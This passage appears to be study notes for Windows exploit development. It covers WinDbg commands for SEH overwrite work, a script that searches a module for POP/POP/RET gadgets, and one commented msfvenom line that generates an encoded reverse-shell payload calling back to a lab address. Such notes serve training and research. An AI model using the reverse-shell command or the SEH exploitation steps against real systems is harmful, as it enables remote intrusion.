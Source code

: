 ```
u 10090c83

bp 10090c83
bl

t # step over


#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.1 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

## SEH
WinDbg allows us to automatically list the current thread exception handler chain with !exchain. The !exchain extension displays the exception handlers of the current thread.
```
!exchain
```
To inspect the callstack ( k ) to determine which functions were called before the EIP register was overwritten.
```
k
```

bp ntdll!ExecuteHandler2
u @eip L11

### Finding a P/P/R Instruction Sequence
```
.load narly
!nmod

#scripting
# should be placed in a ".wds" file (ex C:\Users\vagrant\Desktop\find_ppr.wds)
#here 10000000 and 10226000 are start and end address of the module we want to check for P/P/R instruction

.block
{
    .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
    {
        .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
        {
            s-[1]b 10000000 10226000 $t0 $t1 c3
        }
    }
}
```

`$><C:\Users\vagrant\Desktop\find_ppr.wds`

`bp 0x1015a2f0`
